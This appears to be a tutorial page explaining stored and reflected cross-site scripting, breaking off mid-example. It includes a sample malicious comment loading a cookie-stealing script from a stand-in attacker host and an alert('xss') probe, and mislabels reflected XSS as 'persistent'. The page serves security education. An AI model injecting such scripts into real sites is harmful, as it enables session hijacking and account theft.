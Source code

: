When a victim views an infected page on the website, the injected code executes in the victim's browser. Consequently, the attacker has bypassed the browser's ***same origin policy*** and is able to steal private information from a victim associated with the website. 

The aim is to enable the perpetrator to ***steal their session cookies*** and hijack their accounts.

Cross site scripting attacks can be broken down into two types: ***stored*** and ***reflected***.

##Stored XSS

Also known as persistent XSS, is the more damaging of the two. It occurs when a malicious script is injected directly into a vulnerable web application.

![Image](https://www.incapsula.com/images/illustrations/web-app-security-mini-site/sorted-XSS.png)
###Example:

While browsing an e-commerce website, a perpetrator discovers a vulnerability that allows HTML tags to be embedded in the site's comments section. The embedded tags become a permanent feature of the page, causing the browser to parse them with the rest of the source code every time the page is opened.

The attacker adds the following comment: 

```git
Great price for a great item! Read my review here <script src="http://hackersite.com/authstealer.js"> </script>.
```

From this point on, every time the page is accessed, the HTML tag in the comment will activate a JavaScript file, which is hosted on another site, and has the ability to steal visitors' session cookies.

Using the session cookie, the attacker can compromise the visitor’s account, granting him easy access to his personal information and credit card data. Meanwhile, the visitor, who may never have even scrolled down to the comments section, is not aware that the attack took place.

One of the most frequent targets are websites that allow users to share content, including blogs, social networks, video sharing platforms and message boards. Every time the infected page is viewed, the malicious script is transmitted to the victim's browser.



## Reflected (or persistent)

Reflected XSS involves the reflecting of a malicious script off of a web application, onto a user's browser. The script is embedded into a link, and is only activated once that link is clicked on.



![Image](https://www.incapsula.com/images/illustrations/web-app-security-mini-site/reflected-xss.png)


### Example


While visiting a forum site that requires users to log in to their account, a perpetrator executes this search query <script type='text/javascript'>alert('xss');</script> causing the following things to occur:
